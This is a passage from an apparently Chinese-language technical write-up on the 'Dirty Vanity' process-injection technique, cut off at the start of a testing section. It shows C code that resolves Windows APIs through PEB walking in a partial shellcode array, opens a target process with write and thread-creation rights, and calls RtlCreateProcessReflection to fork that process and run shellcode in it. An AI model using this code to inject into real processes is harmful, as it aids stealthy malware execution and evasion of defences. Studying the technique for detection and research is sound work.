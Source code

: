 **✅ 正确做法**：
```c
// 使用PEB walking动态解析API
unsigned char DIRTY_VANITY_SHELLCODE[] = {
    // PEB walking代码
    0x65, 0x48, 0x8B, 0x04, 0x25, 0x60, 0x00, 0x00, 0x00,  // mov rax, gs:[0x60]
    // ... 遍历InLoadOrderModuleList
    // ... 字符串比较找到kernel32.dll
    // ... 解析导出表找到WinExec
    // ... 动态调用
};
```

### 2. Inheritable Handle

```c
HANDLE hProcess = OpenProcess(
    PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_CREATE_THREAD | PROCESS_DUP_HANDLE,
    TRUE,  // ✅ 必须为TRUE（配合RTL_CLONE_PROCESS_FLAGS_INHERIT_HANDLES）
    targetPid
);
```

### 3. RtlCreateProcessReflection调用

```c
typedef struct {
    HANDLE ReflectionProcessHandle;
    HANDLE ReflectionThreadHandle;
    T_CLIENT_ID ReflectionClientId;
} T_RTLP_PROCESS_REFLECTION_REFLECTION_INFORMATION;

T_RTLP_PROCESS_REFLECTION_REFLECTION_INFORMATION reflectionInfo = { 0 };
NTSTATUS status = RtlCreateProcessReflection(
    hProcess,                                                          // 目标进程handle
    RTL_CLONE_PROCESS_FLAGS_INHERIT_HANDLES |                        // 继承句柄
    RTL_CLONE_PROCESS_FLAGS_NO_SYNCHRONIZE,                          // 不同步
    baseAddress,  // StartRoutine = shellcode地址
    NULL,         // StartContext
    NULL,         // EventHandle
    &reflectionInfo
);

if (status == STATUS_SUCCESS) {
    DWORD forkedPid = (DWORD)(DWORD_PTR)reflectionInfo.ReflectionClientId.UniqueProcess;
    printf("[+] Forked process PID: %lu\n", forkedPid);
}
```

## 测试过程

### 测试 1: 使用内置Position-Independent Shellcode

